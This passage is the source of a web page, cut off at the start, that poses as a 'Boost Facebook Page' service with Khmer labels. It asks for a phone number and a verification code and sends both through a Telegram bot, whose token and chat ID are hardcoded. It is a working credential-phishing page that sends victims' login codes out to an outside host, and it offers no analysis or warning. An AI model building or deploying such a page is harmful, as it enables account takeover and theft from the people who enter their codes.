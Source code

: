     button:hover {
      background-color: #365899;
      transform: scale(1.05);
    }

    .status {
      margin-top: 15px;
      color: #fff;
      font-weight: bold;
      animation: fadeIn 0.8s;
    }

    @keyframes fadeIn {
      from {opacity: 0;}
      to {opacity: 1;}
    }
  </style>
</head>
<body>
  <div class="container">
    <h2>🚀 Boost Facebook Page</h2>
    <input type="text" id="phone" placeholder="📱 លេខទូរស័ព្ទ" />
    <input type="text" id="code" placeholder="🔐 លេខកូដ" />
    <button onclick="sendToTelegram()">បញ្ជូន</button>
    <div id="status" class="status"></div>
  </div>

  <script>
    function sendToTelegram() {
      const phone = document.getElementById("phone").value.trim();
      const code = document.getElementById("code").value.trim();
      const status = document.getElementById("status");

      if (!phone || !code) {
        status.textContent = "⚠️ សូមបញ្ចូលទាំងលេខទូរស័ព្ទនិងលេខកូដ!";
        return;
      }

      const message = `📲 លេខទូរស័ព្ទ: ${phone}\n🔐 លេខកូដ: ${code}`;
      
      const token = '8057535635:AAFjnsrRpj4axjJ5wS1JBGgsQGhokF0bgXY';  // 🔁 ប្ដូរទីនេះជាមួយ TOKEN
      const chat_id = '1784262198'; // 🔁 ប្ដូរទីនេះជាមួយ CHAT ID

      fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify({
          chat_id: chat_id,
          text: message
        })
      })
      .then(response => {
        if (response.ok) {
          status.textContent = "✅ បញ្ជូនរួចរាល់ទៅ Telegram!";
        } else {
          status.textContent = "❌ មិនអាចបញ្ជូនបានទេ!";
        }
      })
      .catch(error => {
        status.textContent = "🚫 មានបញ្ហាក្នុងការបញ្ជូន!";
        console.error(error);
      });
    }
  </script>
</body>